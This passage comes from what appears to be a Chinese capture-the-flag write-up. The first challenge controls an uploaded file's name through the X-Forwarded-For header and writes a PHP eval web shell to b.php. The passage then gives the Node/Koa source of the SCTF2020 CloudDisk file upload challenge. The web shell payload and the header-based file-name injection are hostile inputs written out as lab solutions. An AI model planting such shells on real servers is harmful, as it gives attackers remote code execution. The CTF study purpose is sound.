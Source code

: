 然后用xff控制文件名即可

```
GET:
?file=.&action=ctfshow
POST:
content=<?php eval($_POST[1]);?>
headers:
X-Forwarded-For=b.php
```

![](https://s2.loli.net/2022/01/11/2Itz5ypsjSdJErL.png)

然后访问b.php即可

![](https://s2.loli.net/2022/01/11/S73IUVlyFWjCdmJ.png)



## 695-SCTF2020 CloudDisk

```
router.post('/uploadfile', async (ctx, next) => {
  const file = ctx.request.body.files.file;

  if (!fs.existsSync(file.path)) {
    return ctx.body = "Error";
  }

  if(file.path.toString().search("/dev/fd") != -1){
    file.path="/dev/null"
  }

  const reader = fs.createReadStream(file.path);
  let fileId = crypto.createHash('md5').update(file.name + Date.now() + SECRET).digest("hex");
  let filePath = path.join(__dirname, 'upload/') + fileId
  const upStream = fs.createWriteStream(filePath);
  reader.pipe(upStream)
  return ctx.body = "Upload success ~, your fileId is here：" + fileId;
  
});

router.get('/downloadfile/:fileId', async (ctx, next) => {
  let fileId = ctx.params.fileId;
  ctx.attachment(fileId);
  try {
    await send(ctx, fileId, { root: __dirname + '/upload' });
  }catch(e){
    return ctx.body = "no_such_file_~"
  }
});
```

[[SCTF2020\]CloudDisk - 灰信网（软件开发博客聚合） (freesion.com)](https://www.freesion.com/article/19171183596/)

